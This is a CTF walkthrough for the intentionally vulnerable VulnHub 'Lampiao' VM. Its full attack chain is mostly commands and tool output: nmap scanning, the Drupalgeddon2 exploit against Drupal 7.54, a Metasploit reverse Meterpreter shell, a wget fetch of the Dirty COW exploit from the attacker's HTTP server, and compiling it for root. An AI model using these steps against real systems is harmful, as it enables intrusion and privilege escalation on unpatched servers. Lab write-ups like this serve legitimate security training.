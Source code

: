 ```yaml
---
layout: post-detail
title: Walkthrough on the CTF lampiao
date: 2018-10-01
categories: CTF
description: CTF on lampiao, iso : https://www.vulnhub.com/entry/lampiao-1,249/
img-url: ''
comments: true
---
```


# Iso

Download the iso here: https://www.vulnhub.com/entry/lampiao-1,249/

# Discover the target

    $ sudo nmap -sS 192.168.2.0/24

```txt
Nmap scan report for 192.168.2.118
Host is up (0.0010s latency).
Not shown: 998 closed ports
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http
MAC Address: 08:00:27:E1:ED:D5 (Oracle VirtualBox virtual NIC)
```

192.168.2.118 is our target, a ssh and a http server run.

# More informations

    $ sudo nmap -sT -sV -A -p- 192.168.2.118

```txt
22/tcp   open  ssh     OpenSSH 6.6.1p1 Ubuntu 2ubuntu2.7 (Ubuntu Linux; protocol 2.0)
- - -
1898/tcp open  http    Apache httpd 2.4.7 ((Ubuntu))
|_http-generator: Drupal 7 (http://drupal.org)
| http-robots.txt: 36 disallowed entries (15 shown)
| /includes/ /misc/ /modules/ /profiles/ /scripts/
| /themes/ /CHANGELOG.txt /cron.php /INSTALL.mysql.txt
| /INSTALL.pgsql.txt /INSTALL.sqlite.txt /install.php /INSTALL.txt
|_/LICENSE.txt /MAINTAINERS.txt
|_http-server-header: Apache/2.4.7 (Ubuntu)
|_http-title: Lampi\xC3\xA3o
```

The /CHANGELOG.txt show us the version of drupal 7.54

    $ searchsploit drupal

```txt
Drupal < 7.58 / < | exploits/php/webapps/44449.rb
```

We launch the exploit.

    $ ruby /usr/share/exploitdb/exploits/php/webapps/44449.rb http://192.168.2.118:1898

```txt
[*] --==[::#Drupalggedon2::]==--
--------------------------------------------------------------------------------
[*] Target : http://192.168.2.118:1898/
--------------------------------------------------------------------------------
[+] Found  : http://192.168.2.118:1898/CHANGELOG.txt (200)
[+] Drupal!: 7.54
--------------------------------------------------------------------------------
[+] Very Good News Everyone! Wrote to the web root! Waayheeeey!!!
--------------------------------------------------------------------------------
[*] Fake shell:   curl 'http://192.168.2.118:1898/s.php' -d 'c=whoami'
lampiao>>
```

Unfortunately, the shell is very limited, try run g++ return:

    lampiao>> g++
    sh: 1: g: not found

Or `chmod +x something`, we cannot use any special character.
We'll run the same exploit under `metasploit` and `meterpreter`.

    $ msfconsole
    use exploit/unix/webapp/drupal_drupalgeddon2
    set RHOST 192.168.2.118
    set RPORT 1898
    exploit

```txt
[*] Started reverse TCP handler on 192.168.2.92:1898 
[*] Drupal 7 targeted at http://192.168.2.118:1898/
[+] Drupal appears unpatched in CHANGELOG.txt
[*] Sending stage (37775 bytes) to 192.168.2.118
[*] Meterpreter session 1 opened (192.168.2.92:1898 -> 192.168.2.118:36346) at 2018-10-01 15:46:15 +0200
meterpreter >
```

    meterpreter > shell
    python -c 'import pty;pty.spawn("/bin/bash")'
    lampiao:/var/www/html$ uname -a
    Linux lampiao 4.4.0-31-generic #50~14.04.1-Ubuntu SMP Wed Jul 13 01:06:37 UTC 2016 i686 i686 i686 GNU/Linux

Back on my machine to research a nice exploit, i've try:

    $ searchsploit linux 4.4

```txt
43418.c
39166.c
37292.c
42276.c
37088.c
9542.c
41458.c
39277.c
40003.c
44298.c
44300.c
```

After a few hours to test no working exploit, i've test an another query on exploitdb:

    $ searchsploit Linux Kernel | grep local | wc -l
    200

Try to reduce the list, only `.c` and `.cpp` exploit.

    $ searchsploit Linux Kernel | grep local | grep -e "\.cpp$" -e "\.c$" | wc -l
    151

We remove `x86_64` and `arm` exploit.
     
    $ searchsploit Linux Kernel linux/local | grep -e "\.cpp$" -e "\.c$" | wc -l
    126

The list is again huge... after some times, the exploit `40847.cpp` has work...

```txt
Linux Kernel 2.6.22 < 3.9 | exploits/linux/local/40847.cpp
```

Yep, an exploit for `kernel 2.6.2 < 3.9` has work on a `kernel 4.4.0`.  
It must be 'the message' of this vm, never give up !

Start a server to download file under the lampiao vm.

    $ python2.7 -m SimpleHTTPServer 4444

    lampiao$ wget http://192.168.2.92:4444/40847.cpp

Instruction to compile are in the file:

    lampiao$ g++ -Wall -pedantic -O2 -std=c++11 -pthread -o dcow 40847.cpp -lutil
    lampiao$ ./dcow -s

We are finally root:

    root@lampiao:~# cd
    root@lampiao:~# cat flag.txt
    9740616875908d91ddcdaa8aea3af366

Find the good exploit here was a bit long.

